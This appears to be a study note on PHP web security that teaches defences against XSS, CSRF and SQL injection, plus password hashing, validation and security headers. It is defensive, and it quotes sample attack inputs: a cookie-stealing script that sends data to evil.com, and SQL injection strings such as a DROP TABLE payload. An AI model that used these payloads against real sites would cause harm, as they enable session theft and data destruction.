

# PHP Security

> [!abstract] TL;DR
> PHP web security centers on five attack vectors: **XSS** (inject malicious JavaScript — prevent with `htmlspecialchars()` / Blade auto-escaping), **CSRF** (forged requests — prevent with synchronizer tokens), **SQL injection** (inject SQL — prevent with PDO prepared statements), **weak password storage** (prevent with `password_hash()` using `PASSWORD_BCRYPT` or `PASSWORD_ARGON2ID`), and **insecure input** (prevent with validation + type casting). Always set security HTTP headers (CSP, HSTS, X-Frame-Options) and keep `display_errors=Off` in production.

---

## Intuition — analogy first

Think of your web app as a post office. XSS is like a letter that, when opened by the recipient (browser), releases a hidden agent who starts photographing their desk (stealing cookies). CSRF is a forged letter with someone else's signature that tricks the post office into acting on it. SQL injection is writing your name as `'; DROP TABLE users; --` on the form — if the post office copies it verbatim into the system, it executes destructive instructions. Prepared statements are like a pre-printed form where the data fields can only contain names, not SQL commands.

---

## How It Works



---

## XSS Prevention

```php
// NEVER output user input directly
echo $_GET['name'];  // DANGEROUS — attacker sends: <script>document.location='evil.com?c='+document.cookie</script>

// ALWAYS escape for HTML context
echo htmlspecialchars($_GET['name'], ENT_QUOTES | ENT_HTML5, 'UTF-8');

// PHP helper function — use everywhere
function e(string $value): string {
    return htmlspecialchars($value, ENT_QUOTES | ENT_HTML5, 'UTF-8');
}

echo '<h1>Hello, ' . e($_GET['name']) . '</h1>';

// For JSON output — use JSON_HEX_TAG to prevent </script> injection
echo json_encode($data, JSON_HEX_TAG | JSON_HEX_APOS | JSON_HEX_AMP | JSON_HEX_QUOT);
```

**Blade auto-escaping** (Laravel) — `{{ }}` escapes, `{!! !!}` is raw (use sparingly):

```blade
{{-- Safe: auto-escaped --}}
{{ $user->name }}

{{-- DANGEROUS: only use when content is already sanitized HTML --}}
{!! $article->html_content !!}
```

**Content Security Policy header:**

```php
// In a middleware or at the top of responses
header("Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; img-src 'self' data:; style-src 'self' 'unsafe-inline'");
```

---

## CSRF Protection

```php
// Native PHP CSRF token pattern
session_start();

// Generate token (once per session)
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

// In form
echo '<input type="hidden" name="csrf_token" value="' . htmlspecialchars($_SESSION['csrf_token']) . '">';

// Validate on POST
function validateCsrfToken(): void {
    $token = $_POST['csrf_token'] ?? '';
    if (!hash_equals($_SESSION['csrf_token'] ?? '', $token)) {
        http_response_code(419);
        die('CSRF token mismatch');
    }
}
```

**Laravel CSRF** — automatic for all POST/PUT/PATCH/DELETE routes:

```blade
{{-- Blade: auto-generates the token in forms --}}
<form method="POST" action="/profile">
    @csrf
    {{-- expands to: <input type="hidden" name="_token" value="..."> --}}
    <button type="submit">Update</button>
</form>
```

```php
// Exclude routes from CSRF (e.g., Stripe webhooks)
// app/Http/Middleware/VerifyCsrfToken.php
protected $except = [
    'stripe/webhook',
    'api/*',    // API routes use token auth, not session CSRF
];

// Ajax — include in request header
// JavaScript:
// axios.defaults.headers.common['X-CSRF-TOKEN'] = document.querySelector('meta[name=csrf-token]').content;
```

---

## SQL Injection Prevention

```php
// DANGEROUS — never interpolate user input into SQL
$username = $_POST['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
// Attacker sends: ' OR '1'='1 → exposes all users

// SAFE — PDO prepared statements
$pdo = new PDO('mysql:host=localhost;dbname=app', 'user', 'pass', [
    PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_EMULATE_PREPARES => false,  // use real prepared statements
]);

$stmt = $pdo->prepare('SELECT * FROM users WHERE username = :username AND active = 1');
$stmt->execute([':username' => $username]);
$user = $stmt->fetch(PDO::FETCH_ASSOC);

// Positional placeholders
$stmt = $pdo->prepare('INSERT INTO logs (user_id, action, created_at) VALUES (?, ?, NOW())');
$stmt->execute([$userId, $action]);

// Eloquent (Laravel) — automatically uses prepared statements
User::where('username', $username)->where('active', true)->first();
```

---

## Password Hashing

```php
// NEVER store passwords in plain text or with MD5/SHA1

// Hash on registration — bcrypt (default, cost 12)
$hash = password_hash($plaintextPassword, PASSWORD_BCRYPT, ['cost' => 12]);

// Argon2id — more memory-hard, better against GPU attacks (PHP 7.3+)
$hash = password_hash($plaintextPassword, PASSWORD_ARGON2ID, [
    'memory_cost' => 65536,  // 64MB
    'time_cost'   => 4,      // iterations
    'threads'     => 2,
]);

// Verify on login
if (password_verify($plaintextPassword, $storedHash)) {
    // Login successful

    // Rehash if algorithm or cost changed
    if (password_needs_rehash($storedHash, PASSWORD_ARGON2ID)) {
        $newHash = password_hash($plaintextPassword, PASSWORD_ARGON2ID);
        // Update $newHash in database
    }
}

// Laravel — Auth::attempt() handles this automatically
// Hash::make() and Hash::check() in application code
$hash = Hash::make($password);           // bcrypt by default
$valid = Hash::check($password, $hash);  // constant-time comparison
```

---

## Input Validation and Sanitization

```php
// Validate — reject bad data before processing
$email = filter_var($_POST['email'], FILTER_VALIDATE_EMAIL);
if ($email === false) {
    throw new InvalidArgumentException('Invalid email address');
}

$age = filter_var($_POST['age'], FILTER_VALIDATE_INT, ['options' => ['min_range' => 1, 'max_range' => 150]]);
$url = filter_var($_POST['url'], FILTER_VALIDATE_URL);

// Sanitize — strip dangerous content
$clean = filter_var($_POST['input'], FILTER_SANITIZE_SPECIAL_CHARS);

// Laravel Form Request Validation
class StoreUserRequest extends FormRequest {
    public function rules(): array {
        return [
            'name'     => ['required', 'string', 'max:255', 'regex:/^[\pL\s]+$/u'],
            'email'    => ['required', 'email:rfc,dns', 'unique:users,email'],
            'password' => ['required', 'string', 'min:12', 'confirmed', Password::defaults()],
            'age'      => ['required', 'integer', 'between:18,120'],
            'website'  => ['nullable', 'url', 'max:500'],
        ];
    }
}

// Password rules configuration
Password::defaults(fn() =>
    Password::min(12)
        ->letters()
        ->numbers()
        ->symbols()
        ->uncompromised()  // checks against HaveIBeenPwned
);
```

---

## Security HTTP Headers

```php
// Set in middleware or at bootstrap (native PHP)
header('X-Content-Type-Options: nosniff');
header('X-Frame-Options: DENY');           // prevent clickjacking
header('X-XSS-Protection: 1; mode=block');
header('Referrer-Policy: strict-origin-when-cross-origin');
header('Strict-Transport-Security: max-age=31536000; includeSubDomains; preload'); // HTTPS only

// Laravel — via middleware (e.g., spatie/laravel-csp)
// Or directly in app/Http/Middleware/SecurityHeaders.php
```

---

## Trade-offs

| Approach | Security | Performance | Complexity |
|----------|----------|-------------|------------|
| `password_hash()` bcrypt cost=12 | Strong | ~100ms per hash (intentional) | Low |
| `password_hash()` argon2id | Stronger (memory-hard) | ~100ms + memory | Low |
| Prepared statements | Eliminates SQLi | Negligible overhead | Low |
| CSRF synchronizer token | Prevents CSRF | Session lookup per request | Low |
| CSP headers | Limits XSS impact | Zero | Medium (policy tuning) |
| Input whitelisting | Eliminates injection | Minimal | Medium |

---

## Common Pitfalls

- **Using `md5()` or `sha1()` for passwords** — both are fast hash functions with GPU preimage attacks. Use `password_hash()` with bcrypt or argon2id, which are intentionally slow.
- **Double-escaping or wrong context escaping** — `htmlspecialchars()` is for HTML context. Inserting into JavaScript requires `json_encode()`. Wrong context escaping provides false security.
- **Trusting `$_SERVER['HTTP_*']` headers** — HTTP headers like `X-Forwarded-For` are set by the client and can be spoofed. Use a trusted proxy list and validate accordingly.
- **Exposing detailed errors in production** — `display_errors=On` in production reveals file paths, database structure, and stack traces to attackers. Always set `display_errors=Off` and log errors instead.
- **CSRF exclusion too broad** — excluding `api/*` from CSRF protection is correct only if those routes use token-based auth (Sanctum). Session-based API endpoints still need CSRF protection.

---

## Review Questions

1. What is the difference between input validation and input sanitization? Which is preferred, and why?
2. Why is MD5 an inappropriate algorithm for password storage, and what makes bcrypt/argon2id better?
3. What does `hash_equals()` do in the CSRF token comparison? What attack does it prevent?
4. Explain why `{!! !!}` in Blade is dangerous and when it is acceptable to use it.
5. A user submits the username `admin'--` in a login form. Show what SQL injection would look like without prepared statements, and how a prepared statement prevents it.

---

## Sources

- [PHP password_hash()](https://www.php.net/manual/en/function.password-hash.php)
- [OWASP PHP Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/PHP_Configuration_Cheat_Sheet.html)
- [Laravel CSRF Protection](https://laravel.com/docs/11.x/csrf)
- [Laravel Validation](https://laravel.com/docs/11.x/validation)

---

#PHP #Laravel #security #xss #csrf #sql-injection #password-hashing
